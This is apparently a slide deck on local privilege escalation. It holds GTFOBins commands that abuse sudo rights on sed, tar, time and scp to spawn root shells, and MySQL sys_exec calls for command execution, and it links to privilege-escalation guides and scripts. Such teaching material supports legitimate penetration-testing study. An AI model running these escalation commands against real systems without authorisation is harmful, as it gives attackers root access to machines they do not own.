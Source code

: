 
##### GTFOBins

* sed
 - `sudo sed -n '1e exec bash' 1>&0 /etc/hosts`
* tar
 - `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`
* time
 - `/usr/bin/time /bin/sh`


##### GTFOBins

scp

```Bash
TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
scp -S $TF x y:
```


##### Service-based Misconfigurations

* MySQL Running as Root
 - `select sys_exec('whoami');`
 - `select sys_eval('whoami');`
* Apache/Nginx Running as Root
 - If you used a web exploit, you're root!


#### Linux LPE Guides

* [g0tmi1k's Basic Linux Privilege Escalation Guide](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html)


#### Linux LPE Scripts

* [LinEnum](https://github.com/rebootuser/LinEnum)
* [LinuxPrivChecker.py](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py)
* [Unix-Privesc-Check](http://pentestmonkey.net/tools/audit/unix-privesc-check)



### Vertical LPE on Windows

* EternalBlue
* Mimikatz



## Questions?
